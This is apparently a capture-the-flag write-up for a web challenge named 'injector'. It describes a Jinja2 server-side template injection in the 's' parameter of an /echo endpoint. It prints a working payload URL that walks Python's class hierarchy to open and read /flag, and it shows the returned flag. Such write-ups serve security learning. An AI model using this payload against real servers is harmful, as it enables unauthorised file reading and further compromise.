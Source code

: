 # Stage 5: injector - web - medium

## Challenge

Hack me hard at: http://45.76.80.234:8082/

## Solution

The index page returned a pyc file, but it had errors from some html escapes.
We somehow failed to decompile the file :(

The server itself uses jinja2 at /echo to render the parameter "s" to a page.
This parameter is vulnerable to template injection. The PayloadsAllTheThings
repository already offers nearly ready to use injections here:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2

The following code will print the file at "/flag":

```
http://45.76.80.234:8082/echo?s={{request.args.param.__class__.__mro__[2].__subclasses__()[40](request.args.param).read()}}&param=/flag

You entered: junior-inject_it_like_its_hot

```
